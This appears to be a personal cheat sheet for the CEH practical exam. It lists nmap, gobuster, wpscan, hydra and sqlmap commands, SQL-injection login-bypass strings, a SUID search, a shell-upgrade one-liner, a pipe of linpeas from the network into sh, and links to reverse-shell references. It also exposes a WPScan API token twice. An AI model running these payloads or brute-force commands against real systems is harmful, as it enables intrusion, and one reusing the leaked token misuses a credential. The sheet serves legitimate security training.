 sudo su

vi get-stuff.sh

mkdir CEH
cd CEH
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
sudo chmod +x linpeas.sh
sudo apt install stegseek
sudo apt install gobuster
sudo apt install enum4linux
sudo apt install xsltproc
sudo gem install wpscan




NMAP
sudo nmap -O -T5 -sV -sC -oA nmap_$ip1_out_all -vv $ip1/24
sudo xsltproc nmap_out_all.xml nmap_$ip1_out_all.html

cd CEH;mkdir $ip;cd $ip;sudo nmap -O -T5 -sV -sC -oA nmap_$ip\_out_all -vv $ip/24;sudo xsltproc nmap_$ip\_out_all.xml -o nmap_$ip\_out_all.html;


Quick Host Discovery
sudo nmap -O -T5 -sn $ip/24 
sudo nmap -O -T5 -sn -PR $ip/24                   (-PR ARP requests)

nmap -p 3389 --script rdp-ntlm-info <target>




GoBuster
sudo gobuster dir  -w /usr/share/wordlists/rockyou.txt -u http://$ip

SQLi
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

sqlmap -u “url" --cookie="cookie" --dbs


Steganography
sudo stegseek -wl /usr/share/wordlists/rockyou.txt -sf filename

snow.exe -C -p “password” stegfile.txt

Enum4Linux
sudo enum4linux -U -o $ip

WPScan (https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)

Known vulns
wpscan -e vp,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
All vulns:
wpscan -e ap,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
Password Bruteforce
wpscan -e u --passwords /path/to/password_file.txt  --url <example.com>
Linpeas Winpeas also exists apparently
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
./linpeas.sh -a > /tmp/linpeas.txt

Hydra
hydra -l <username> -P given_wordlist ftp://$ip
https://github.com/frizb/Hydra-Cheatsheet






UNIX command exploits: GTFOBins
CEH exercise: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/system-hacking/tasks.md


Check all suid bit programs (find / -perm -u=s -type f 2>/dev/null)
python -c import pty;pty.spawn("/bin/bash")

General Check: https://book.thegurusec.com/certifications/certified-ethical-hacker-practical
General Check 2: https://github.com/cmuppin/CEH/tree/main/
General Check 3: https://book.hacktricks.xyz/
General Check 4: https://github.com/infovault-Ytube/CEH-Practical-Notes


Reverse Shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
		https://github.com/pentestmonkey/php-reverse-shell


Wpscan API key: j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ

Android: https://github.com/cmuppin/CEH/blob/main/Android
	https://attack.mitre.org/matrices/mobile/android/

Check Service vuln: https://www.cvedetails.com/

Metasploit Priv Esc: run post/multi/recon/local_exploit_suggester

CEH Notes: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/cloud-computing/tasks.md

OWASP CheatSheet: https://cheatsheetseries.owasp.org/cheatsheets/


TOOLS:
Nmap/zenmap
Metasploit
Searchsploit
Hydra
Aircrack-ng
Veracrypt
Theef RAT
BCTextEncoder
StegHide
Adb
John the ripper
Wireshark
Phonesploit
Sqlmap
ZAP
Open Stego
Detect It Easy (DIE)
Openvas
Smbclient
SSH
Crackstation
Hashes.com
Cyberchef
emn178.github.io/online-tools/crc32_checksum.html

